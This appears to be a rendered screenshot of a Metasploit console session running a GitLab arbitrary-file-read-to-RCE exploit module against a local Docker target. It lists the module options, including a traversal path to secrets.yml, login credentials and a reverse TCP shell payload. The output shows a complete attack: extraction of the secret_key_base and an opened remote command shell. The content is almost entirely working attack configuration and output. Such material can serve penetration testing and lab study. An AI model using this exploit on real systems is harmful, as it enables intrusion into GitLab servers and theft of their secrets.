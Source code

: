 ```
msf6 exploit(multi/http/gitlab_file_read_rce) > options

Module options (exploit/multi/http/gitlab_file_read_rce):

   Name          Current Setting                             Required  Description
   ----          ---------------                             --------  -----------
   DEPTH         15                                          yes       Define the max traversal depth
   PASSWORD      password123                                 yes       The password for the specified username
   Proxies                                                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        127.0.0.1                                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT         80                                          yes       The target port (TCP)
   SECRETS_PATH  /opt/gitlab/embedded/service/gitlab-rails/  yes       The path to the secrets.yml file
                 config/secrets.yml
   SECRET_KEY_BASE                                           no        The known secret_key_base from the secrets.yml - this skips the arbitrary file read if present
   SSL           false                                       no        Negotiate SSL/TLS for outgoing connections
   TARGETURI     /users/sign_in                              yes       The path to the vulnerable application
   USERNAME      test@example.com                            yes       The username to authenticate as
   VHOST         gitlab.example.com                          no        The virtual host name to use in requests


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  docker0          yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(multi/http/gitlab_file_read_rce) > rerun

[*] Started reverse TCP handler on 172.17.0.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. GitLab 12.8.1 is a vulnerable version.
[*] Logged in to user test
[*] Created project /test/pKUuduxC
[*] Created project /test/5W350yP1
[*] created issue /test/pKUuduxC/issues/1
[*] Executing arbitrary file load
[+] File saved as: '/home/kali/.msf4/loot/20201121213408_default_127.0.0.1_gitlab.secrets_675303.txt'
[+] Extracted secret_key_base e41f3a01d22ff6a694be33bf2e5d40af89b788088938203c3478818da595731ada41c2b9c3d3caff79de7647a0c287bb68f6ca1912904a766237543013c46594
[*] Attempting to delete project /test/pKUuduxC
[*] Command shell session 23 opened (172.17.0.1:4444 -> 172.17.0.2:34058) at 2020-11-21 21:34:08 -0500
[*] Deleted project /test/pKUuduxC
```